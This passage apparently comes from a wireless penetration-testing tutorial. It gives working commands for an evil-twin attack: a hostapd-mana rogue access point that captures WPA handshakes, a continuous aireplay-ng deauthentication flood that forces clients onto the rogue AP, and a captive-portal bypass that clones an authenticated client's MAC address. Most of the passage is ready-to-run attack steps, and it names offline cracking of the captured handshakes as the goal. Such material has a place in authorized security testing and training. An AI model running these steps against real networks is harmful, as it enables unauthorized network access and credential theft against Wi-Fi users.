 ### Hostapd-Mana (Advanced Rogue AP)
```bash
# Install hostapd-mana
sudo apt update
sudo apt install hostapd-mana

# Create mana configuration
cat > mana_ap.conf << EOF
interface=wlan0
ssid=TargetNetwork
channel=6
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP
rsn_pairwise=TKIP CCMP
mana_wpaout=/tmp/mana_handshakes.hccapx
EOF

# Launch mana AP
sudo hostapd-mana mana_ap.conf
```

### Deauthentication Attack Integration
```bash
# In second terminal, force clients to connect to rogue AP
sudo aireplay-ng -0 0 -a LEGITIMATE_AP_BSSID wlan1mon

# Monitor captured handshakes
tail -f /tmp/mana_handshakes.hccapx
```

**What to Look For**: Clients will attempt to connect to your rogue AP, providing 4-way handshake captures for offline cracking.

---

## Attacking Captive Portals {#captive-portals}

### Captive Portal Overview
- **Purpose**: Web-based authentication before network access
- **Common Locations**: Hotels, airports, coffee shops, corporate guest networks
- **Attack Vectors**: MAC spoofing, credential harvesting, session hijacking

### Bypass Techniques

#### Method 1: MAC Address Spoofing
```bash
# Discover authenticated clients
sudo airodump-ng wlan0mon

# Copy MAC of authenticated client
sudo macchanger -m AA:BB:CC:DD:EE:FF wlan0

# Connect to network
sudo wpa_supplicant -i wlan0 -c open_network.conf -B
sudo dhclient wlan0
```
